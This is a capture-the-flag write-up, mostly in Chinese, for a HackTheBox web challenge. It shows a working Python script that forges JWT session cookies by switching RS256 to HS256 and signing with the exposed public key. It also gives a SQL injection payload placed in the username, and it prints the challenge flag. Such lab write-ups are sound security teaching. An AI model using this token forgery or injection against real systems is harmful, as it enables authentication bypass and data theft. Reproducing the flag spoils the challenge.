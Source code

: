 # Under Construction

A company that specialises in web development is creating a new site that is currently under construction. Can you obtain the flag?

### Solution 
* 一開始先註冊一下
* 登入之後看到 cookie，熟悉的背影 --- JWT
* 稍微用 https://jwt.io/ 看一下
    ~~~jwt=
    header = {
      "alg": "RS256",
      "typ": "JWT"
    }
    
    payload = {
      "username": "entroy",
      "pk": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n",
      "iat": 1608481629
    }
    ~~~
* 嘿對，有 public key，可以參考 https://xz.aliyun.com/t/6776 的「修改RSA加密算法为HMAC」
* 之後照著他的方法，把 header 中的 alg 改成 HS256，之後使用公鑰 pk 對 token 進行簽名之後修改 cookie 送出
* 在這裡我用 python script 達成這一件事
    ~~~python3=
    import jwt
    import requests
    import sys
    from bs4 import BeautifulSoup

    def token(username):
        pk = '''-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n'''
        payload = {'username' : username, 'pk' : pk, 'iat' : '1608481629'}
        return jwt.encode(payload, key=pk, algorithm="HS256").decode()

    def send_request(username):
        url = 'http://134.209.29.219:30323/'
        cookies = {'session' : token(username)}
        print(BeautifulSoup(requests.get(url, cookies=cookies).text, 'html.parser').find('div', class_='card-body').get_text())

    if __name__ == '__main__':
        username = sys.argv[1]
        send_request(username)
    ~~~
    * 需要注意的事，pyjwt 的版本問題
        * `pip3 install pyjwt==0.4.3`
    * 使用腳本的方法
        * `python3 script.py "entroy"`
* 題目用的是 sqlite，因為當時試到 `database()` = =
* 最後拿到 flag 的 payload `python3 solve.py "123' union select 1,(SELECT top_secret_flaag from flag_storage),3 -- " | grep Welcome`
* flag : `HTB{d0n7_3xp053_y0ur_publ1ck3y}`
